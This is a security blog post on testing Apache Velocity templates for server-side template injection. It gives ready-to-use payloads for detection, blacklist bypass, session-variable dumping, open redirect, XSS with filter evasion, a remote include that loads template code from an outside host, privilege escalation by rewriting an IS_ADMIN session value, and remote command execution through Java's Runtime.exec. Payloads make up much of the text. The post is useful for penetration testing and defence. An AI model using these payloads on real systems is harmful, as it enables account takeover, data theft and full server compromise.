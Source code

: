 ```yaml
---
title: "Testing Velocity Server-Side Template Injection"
slug: "Velocity" 
date: 2019-04-18T14:44:53+01:00
tags: ["ssti","velocity","web"]
categories: ["ssti","velocity","web"]
description: "Exploiting the Velocity Template Engine"
draft: false
---
```


Velocity is a Java-based templating engine which executes server-side to craft complex layouts. Although limited in functionality, the fact that it executes server-side opens vectors for abuse if syntax is left in control of an attacker.
This post will provide some commands we encountered useful to identify a Server-Side Template Injection (SSTI) vulnerability, enumerate the available attack surface on the platform and exploitation. The intention is to update it with any new useful command snippets which may assist in understanding security concerns regarding SSTI in velocity.

THE VULNERABILITY
====
When attempting to identify our injection, our payload should either be injected directly into a template file or evaluated programmatically such as the vulnerable snippet below:

```javascript
#evaluate(<PAYLOAD>)
```

If any parameter in control of an attacker can be injected into the Velocity context, several malicious actions can be performed abusing available syntax.

IDENTIFICATION
====

The concept we will use to identify a vulnerable input field is to assign a variable and render it. This can be done as below:

```javascript
#set ($run=1 + 1) $run 
#set( $bar = 'foo' ) $bar
```

These payloads will print **'2'** and **'foo'** respectively in a vulnerable application.

On occasion the ‘#set’ instruction will be blacklisted, which we can circumvent by manipulating the syntax:

```javascript
#{set} ($run=1 + 1) $run
```

ENUMERATION
====

Depending on the platform in use, we may be able to enumerate interesting information.

**ENUMERATE HTTPSESSION SERVER-SIDE VARIABLES**

You can access the user’s session (HTTPSession) via the $session object. The command below will enumerate all server-side session variable names and their values:

```javascript
#foreach ($key in $session.getAttributeNames()) $key:$session.getAttribute($key) #end
```

Attributes can also be obtained with the below syntax:
```javascript
$request.getSession().getAttribute($key)  $request.session.getAttribute($key)
```

**IDENTIFY THE PLATFORM AND ENUMERATE FURTHER**

Accessible methods and objects may change depending on the version of Velocity in use. Developers implementing a solution using Velocity may implement additional methods interesting for an attacker. Be sure to consult any publicly available documentation to see if there are any additional methods available for the platform you are testing.

EXPLOITATION
====

Identification of server-side template injection can lead to several exploitation scenarios.

**OPEN REDIRECTION**

The server’s response (HttpServletResponse) is also available in all contexts. This will allow us to send a server-side redirection (302 response) to our victim and coerce them to browse a web application in the attackers control. This can be done as shown below:

```javascript
$response.sendRedirect("https://DOMAIN")
```

**CROSS-SITE SCRIPTING**

Being able to render any content we want will allow us to also abuse this to perform client-side attacks via Cross-Site Scripting. Creating a proof of concept for this is trivial:

```javascript
#set($xss = '<script>alert(1);</script>') $xss
```

The interesting part where Velocity can assist us is in circumventing web application firewalls or any blacklist filtering approach. The possibilities are endless, but as an example we could do something as follows:

```javascript
#set($run = ['<','s','c','r','i','p','t','>','alert(1);','<','/','s','c','r','i','p','t','>']) #foreach($key in $run)$key#end
```

The above only creates a long array of strings, which we will then concatenate and render on the application.
REMOTE FILE INCLUDE
If we have a restricted input length or wish to remotely manage our injected payload, we can include and execute a remote file including Velocity code by issuing the following command:

```javascript
#evaluate($import.read('http://DOMAIN'))
```

This technique could also be extrapolated to enumerate internal services adjacent to the affected server by attempting to connect via HTTP. The errors or delays provided by the templating engine will show whether a service is open or closed.

**PRIVILEGE ESCALATION**

This is an example scenario where manipulation of server-side HTTP Session variables could lead to privilege escalation. This was discovered on a product and allowed complete takeover of the affected platform.

In this example, we have identified a server-side variable called ‘IS_ADMIN’, set to 0 for our unprivileged user. Using Velocity, we can set that variable to anything we want to gain administrative privileges on the application.
In this sample payload, we will set the ‘IS_ADMIN’ variable to ‘1’, in order to grant our user administrative privileges. To ensure our server-side variable is used by our user, we will immediately perform a server-side redirect to the admin portal:

```javascript
$session.setAttribute("IS_ADMIN","1") $response.sendRedirect("https://DOMAIN/adminPortal")
```

**REMOTE CODE EXECUTION**

Velocity allows you to interface with underlying Java in order to execute code. This has been documented previously [1] and could allow an attacker to compromise the underlying infrastructure.

```javascript
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```

REFERENCES
----
[1] Server-Side Template Injection: RCE for the modern web app https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf

[2] The Apache Velocity User Guide http://velocity.apache.org/engine/1.7/user-guide.html